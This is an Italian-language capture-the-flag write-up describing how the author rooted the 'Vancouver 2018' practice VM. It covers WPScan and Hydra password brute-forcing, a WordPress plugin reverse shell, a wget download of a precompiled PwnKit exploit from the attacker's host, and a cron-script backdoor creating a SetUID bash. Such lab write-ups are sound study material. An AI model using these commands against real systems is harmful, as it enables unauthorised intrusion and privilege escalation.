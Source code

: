 # 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan**:
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare?

---

## 🔒 **Accesso Completo Tramite SSH**
La shell **www-data** sembrava una strada chiusa. E invece no. Prima di arrendermi, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati.

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.170
```

Dopo molteplici tentativi, ho trovato questa combinazione:
- **Username**: `anne`
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

## 🏆 **Escalation dei Privilegi Alternativa**

E' stato qui che ho deciso di intraprendere nuove strade SENZA AUTENTICAZIONE che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.

---

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**
Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.

![ROOTWITHPWNKIT](./ROOTWITHPWNKIT.png)

---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Questa è una porta spalancata!".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```

![CronJobs](./CronJobsSUCCESS.png)

---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.

Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto. 

![Success](./RootSuccess.png)

🎉 **Missione Completata con Successo!** 🚀

